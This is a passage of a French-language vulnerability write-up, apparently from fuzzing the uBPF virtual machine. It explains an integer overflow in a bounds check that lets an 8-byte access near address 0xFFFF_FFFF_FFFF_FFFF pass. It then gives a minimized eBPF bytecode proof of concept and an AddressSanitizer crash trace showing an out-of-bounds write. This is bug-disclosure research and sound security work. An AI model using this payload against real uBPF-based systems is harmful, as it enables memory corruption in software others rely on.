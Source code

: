 ```c
        return false;
    }
}
```

Cette fonction présente deux integer verflow:
- Le premier bloc de code compare si l'adresse et la taille sont dans les limites du context. Si la somme de l'adresse et de la taille dépasse la limite maximale autorisée d'un pointeur, cela peut entraîner un overflow.

- Le deuxième bloc de code compare si l'adresse et la taille sont dans les limites de la pile. Si la somme de l'adresse et de la taille dépasse la limite maximale autorisée d'un pointeur, cela peut également entraîner un overflow.

Dans le contexte de la fonction, l'adresse (addr) est calculée en ajoutant la valeur du registre source (reg\[inst.src\]) à l'offset (inst.offset). La taille (size) représente le nombre de bytes à lire et est définie par les opérations d'accès mémoire. Il est possible de lire ou d'écrire au maximum 8 bytes.

Pour reproduire le bug nous pouvons contrôler la valeur du registre source, mais la taille est déterminée par les opérations d'accès mémoire. Pour déclencher le bug, il faut passer que la somme du registre source + l'offset de l'instruction soit comprise entre `0xFFFF_FFFF_FFFF_FFFF` et `0xFFFF_FFFF_FFFF_FFF8` et exécuter une opération de lecture ou d'écriture de 8 bytes. 

Cette valeur passera les controles de sécurité de bounds_check, mais les accès mémoire se feront sur la valeur du registre source + offset soit 0xFFFF_FFFF_FFFF_FFFF qui ne fait pas partie des zones allouées au programme.

Ci-dessous, un payload minimisé permettant de reproduire le bug à 100% :

```rust
//r[6] = 0
EbpfBytecode::from(EbpfInstr::new(0xb7, 0x0, 0x6, 0x0, 0x0 as u32 as i32)),  
//[r6] = 0xFFFFFFFFFFF
EbpfBytecode::from(EbpfInstr::new(0x17, 0x0, 0x6, 0x0, 0x1 as u32 as i32)),  
//*(*(uint64_t *) (r[6] + off) = imm => 0xFFFFFFF + 0 = 0 <= 
EbpfBytecode::from(EbpfInstr::new(0x7A, 0x0, 0x6, 0x0, 0x0 as u32 as i32)),  
```

Execution:
```rust
000=> [0xB7, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]
001=> [0x17, 0x06, 0x00, 0x00, 0x01, 0x00, 0x00, 0x00]
002=> [0x7A, 0x06, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00]
[+]VM addr: 0x608000000020
[+]FN Loaded
AddressSanitizer:DEADLYSIGNAL
=================================================================
==6773==ERROR: AddressSanitizer: SEGV on unknown address 0xffffffffffffffff (pc 0x7f636e1a7d65 bp 0x000000001f9c sp 0x7fffc1b60c50 T0)
==6773==The signal is caused by a WRITE memory access.
    #0 0x7f636e1a7d64 in ubpf_exec /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:533
    #1 0x558fa1e8b44e in j_fuzzer::run_prgm::h35d4b4310f796c6f src/main.rs:337
	...
    #18 0x558fa1e84b9d in _start (/mnt/c/J/re/fuzz/j-fuzzer/target/debug/j-fuzzer+0x8b9d)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /mnt/c/J/re/fuzz/ubpf/vm/ubpf_vm.c:533 in ubpf_exec
==6773==ABORTING
```
